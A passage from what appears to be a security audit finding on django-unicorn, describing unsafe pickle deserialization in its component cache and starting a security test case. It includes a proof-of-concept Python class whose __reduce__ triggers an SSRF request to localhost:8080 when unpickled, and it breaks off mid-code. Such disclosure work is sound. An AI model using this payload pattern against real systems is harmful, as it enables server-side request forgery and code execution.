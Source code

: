         def cache_full_tree(component: "django_unicorn.views.UnicornView"):
            # ...
            cache = caches[get_cache_alias()]

            with CacheableComponent(root) as caching:
                for _component in caching.components():
                    cache.set(_component.component_cache_key, _component) # Serialization using pickle.dumps happens implicitly within cache.set

        def restore_from_cache(
                component_cache_key: str,
                request: Optional[HttpRequest] = None
            ) -> "django_unicorn.views.UnicornView":
            # ...
            cache = caches[get_cache_alias()]
            cached_component = cache.get(component_cache_key) # Deserialization using pickle.loads happens implicitly within cache.get
            # ...
            return cached_component
        ```
        - The code directly uses `cache.set` and `cache.get` which, by default with Django's cache backends when storing Python objects, will use `pickle` for serialization.
        - No sanitization is performed on the component data before caching or after retrieval.
        - If an attacker can somehow write to the cache, they can inject a malicious pickled object. When `restore_from_cache` is called to retrieve this component, `pickle.loads` will execute the malicious payload.
- **Security Test Case:**
    1. **Setup:**
        - Configure django-unicorn caching to be enabled (`settings.UNICORN['SERIAL']['ENABLED'] = True`).
        - Set up a Django Unicorn component that utilizes caching (e.g., a component that gets serialized/deserialized on each request or action).
        - Configure a cache backend (like `locmem` or `redis`).
    2. **Craft Malicious Payload:**
        - Create a malicious Python pickle payload that, when deserialized, performs a Server-Side Request Forgery (e.g., tries to access an internal service or an external URL) or attempts to execute arbitrary code (for demonstration purposes, a simple command execution or DNS lookup could be used initially).
        - Example malicious pickle payload (SSRF to internal service on port 8080):
          ```python
          import pickle
          import base64

          class SSRFPayload(object):
              def __reduce__(self):
                  import urllib.request
                  url = "http://localhost:8080"  # Replace with your target SSRF URL
                  return (urllib.request.urlopen, (url,))
